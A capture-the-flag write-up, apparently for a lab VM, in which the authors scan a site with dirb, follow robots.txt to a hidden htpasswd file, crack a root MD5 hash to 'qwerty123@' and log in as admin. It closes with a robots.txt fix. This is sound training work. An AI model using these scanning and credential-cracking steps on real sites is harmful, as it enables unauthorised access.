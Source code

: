 ## How we found the flag
- First, We used "Dirb" which is a Web Content Scanner, it looks for existing (and/or hidden) Web Objects. We used the following command
```
dirb http://192.168.56.101 {project path}/8_SPIDER_ROBOT_TXT/Resources/common.txt > dirb.log
```

-  The output is in dirb.log in this directory. We found something named "http://{ip}/robots.txt", with the content
```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

- We go to "http://{ip}/whatever, and find a file "htpasswd", which has the content 
```
root:437394baff5aa33daa618be47b75cb49
```

- After decrpyed with md5, the true value is 
```
root:qwerty123@
```

- And we used the new pair of crendital to login on admin section, and we got the flag

## Resources
- DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses.
- install dirb in cluster
```
apt-get download dirb
dpkg -x dirb*.deb $HOME/dirb
export PATH="$PATH:$HOME/dirb/usr/bin"
```
- robots.txt is the filename used for implementing the Robots Exclusion Protocol, a standard used by websites to indicate to visiting web crawlers and other web robots which portions of the website they are allowed to visit. 


## How to exploit the breach
- By using the the web scanner, we can easily find all the web object, even it's hidden

## What's the correct way
- Be careful with robots.txt content, avoid including any sensitive information in this file, as it is intended for directing web crawlers and other automated agents.